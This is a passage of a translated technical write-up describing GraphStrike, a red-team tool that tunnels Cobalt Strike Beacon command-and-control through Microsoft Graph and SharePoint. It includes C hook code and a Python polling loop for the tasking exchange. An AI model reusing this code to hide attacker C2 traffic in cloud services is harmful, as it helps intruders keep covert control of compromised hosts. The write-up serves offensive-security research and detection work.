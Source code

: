```plain
                                     C_PTR( U_PTR ( lpdwNumberOfBytesRead ) ) ) );

    // Only run the following if this is a GraphStrike Beacon
    if (pMemAddrs->graphStrike)
    {
        // If we are reading data from a GET request, set readTasking to TRUE
        if(pMemAddrs->activeGet && *lpdwNumberOfBytesRead > 0)
            pMemAddrs->readTasking = TRUE;

        // Beacon calls InternetReadFile until it reads 0 data. Once we are completely done reading output,
        // upload a blank file to the TS tasking file to signal server we are ready for more tasking.
        else if(pMemAddrs->readTasking && *lpdwNumberOfBytesRead == 0)
        {
            pMemAddrs->readTasking = FALSE;            
            LPVOID response = MakeWebRequest(pMemAddrs->hInternet, 
                                              GRAPH_ADDRESS, 
                                              pMemAddrs->httpGetUri, 
                                              PUT_VERB, 
                                              pMemAddrs->httpPostHeaders, 
                                              NULL, 
                                              pMemAddrs );
            if (response)
                pMemAddrs->Api.msvcrt.free(response);            
        }
    }

    return bResult;
};
```

这与 Beacon 仅上传到 Beacon 输出文件的通常流程相反，但在我们完成读取后，通过将 TS 任务文件清零，Beacon 可以向 GraphStrike 服务器发出信号，表明它已收到最后一个任务并准备好执行更多。这也可以防止 Beacon 多次运行相同的命令，因为下次 Beacon 签入时（即使 GraphStrike 服务器出现故障或停止响应），它会将空白 TS 任务文件解释为 “无任务，下次签入” ，然后回去睡眠。 GraphStrike 服务器的逻辑与此配对，等待直到它看到 Beacon 已检索并清零 TS 任务文件，然后再尝试发送更多文件。

同样的动态也存在于 Beacon 输出文件中。当 GraphStrike 服务器检测到 Beacon 输出文件包含数据时，它会下载输出，然后上传一个空白文件以将 SharePoint 中的文件清零。每次检测到 http-post 循环时，Beacon 在 HttpOpenRequestA\_Hook 中发出一个外带请求，首先检查 Beacon 输出文件是否为空或上次输出是否被 GraphStrike 服务器接收，然后才允许 Beacon 继续上传输出。综合起来，这种方法可以缓解上述两个问题。

# GraphStrike 服务器

GraphStrike 服务器的工作是充当 TS 和 Graph API 之间的穿梭机或转换器。与迄今为止讨论的内容相比，该组件的开发过程要简单、顺利得多。首先也是最重要的一点是，它不需要写成与位置无关的 C；为了方便起见，它是用 Python 编写的。紧随其后的是，我们不再尝试操纵、快捷方式和用胶带将现有的二进制文件粘在一起以使其执行我们想要的操作，而是完全控制程序。虽然比较简单，但仍有一些事情值得讨论。

当服务器启动时，它会获取 Graph API 的访问令牌，然后进入无限循环，其中调用 “CheckBeacons” 函数：

```plain
# Call CheckBeacons continuously to service Beacon threads
    while(True):

        # Refresh access token if necessary
        currTime = time.time()
        if currTime > refreshTime:
             access_token, refreshTime = GetAccessToken()

        CheckBeacons()
        time.sleep(0.5)
```
